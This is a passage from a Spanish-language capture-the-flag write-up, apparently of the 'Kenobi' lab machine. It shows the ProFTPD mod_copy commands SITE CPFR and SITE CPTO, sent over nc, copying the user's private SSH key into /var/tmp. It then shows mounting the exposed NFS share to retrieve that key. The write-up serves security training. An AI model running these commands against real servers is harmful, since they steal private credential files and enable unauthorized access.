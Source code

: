 Sabemos que el servicio FTP se está ejecutando como el usuario Kenobi (desde el archivo en el recurso compartido) y se genera una clave ssh para ese usuario. 

Ahora vamos a copiar  la clave privada de Kenobi usando los comandos SITE CPFR y SITE CPTO.

![](IMG/Pasted%20image%2020250407011958.png)

Usamos:

```
nc 10.10.189.6
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![](IMG/Pasted%20image%2020250407013926.png)

Sabíamos que el directorio /var era un montaje visible (tarea 2, pregunta 4). Por lo tanto, hemos movido la clave privada de Kenobi al directorio /var/tmp.

Montemos el directorio /var/tmp en nuestra máquina

mkdir /mnt/kenobiNFS
mount IP_DE_LA_MÁQUINA:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS

![](IMG/Pasted%20image%2020250407012102.png)
